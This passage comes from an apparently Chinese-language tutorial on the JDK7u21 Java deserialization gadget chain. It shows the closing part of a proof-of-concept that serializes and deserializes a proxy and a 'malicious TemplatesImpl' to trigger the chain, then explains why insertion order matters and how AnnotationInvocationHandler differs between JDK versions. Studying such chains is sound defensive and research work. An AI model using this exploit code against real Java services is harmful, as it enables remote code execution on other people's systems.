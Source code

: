 ```java
        // 为tempHandler创造一层代理
        Templates proxy = (Templates) Proxy.newProxyInstance(JDK7u21.class.getClassLoader(), new Class[]{Templates.class}, tempHandler);

        // 实例化HashSet，并将两个对象放进去
        HashSet set = new LinkedHashSet();
        set.add(templates);
        set.add(proxy);

        // 将恶意templates设置到map中
        map.put(zeroHashCodeStr, templates);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(set);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }


}

```

注意这里代码添加的顺序

```java
set.add(templates);
set.add(proxy);
```

在hash表中，同一hash地址对应的链表中的元素是有先后顺序的，我们要保证`key.equals(k)`的k是恶意TemplatesImpl，key是代理对象，而不是反过来。

#### poc代码中的两个问题

> 有两个小问题,`InvocationHandler tempHandler = (InvocationHandler) handlerConstructor.newInstance(Templates.class, map); ` 1.为啥可以传递Templates.class进去,要求不是继承或实现了Annotation 接口的class吗 2.第一个参数传Templates.class是因为这个接口的实现类只有TemplatesImpl 这一个吗,后面type遍历也能调方法

解答：

> 联想到cc1，我当时也有这个疑问。后面看了一下，可能是和不同jdk版本的AnnotationInvocationHandler实现不同，我看了jdk7u21和jdk8u66这两个版本的构造函数是不一样的，7u21中AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {    this.type = var1;    this.memberValues = var2; } 8u66中AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {    Class<?>[] superInterfaces = type.getInterfaces();    if (!type.isAnnotation() ||        superInterfaces.length != 1 ||        superInterfaces[0] != java.lang.annotation.Annotation.class)        throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");    this.type = type;    this.memberValues = memberValues; } 这里Class<? extends Annotation>泛型检查只有编译阶段有，所以参数传入是没什么问题的，8u66中主要是if判断不符合类型要求会抛出异常。
